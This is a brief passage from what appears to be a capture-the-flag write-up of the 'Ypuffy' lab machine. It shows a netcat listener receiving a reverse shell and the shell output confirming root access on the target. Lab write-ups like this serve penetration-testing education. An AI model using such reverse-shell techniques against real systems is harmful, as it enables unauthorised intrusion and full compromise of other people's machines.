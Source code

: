 I get a rev-shell back as root.
```bash
$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.26] from (UNKNOWN) [10.10.10.107] 24626
/bin/sh: No controlling tty (open /dev/tty: Device not configured)
/bin/sh: Can't find tty file descriptor
/bin/sh: warning: won't have full job control
ypuffy# whoami
root
```
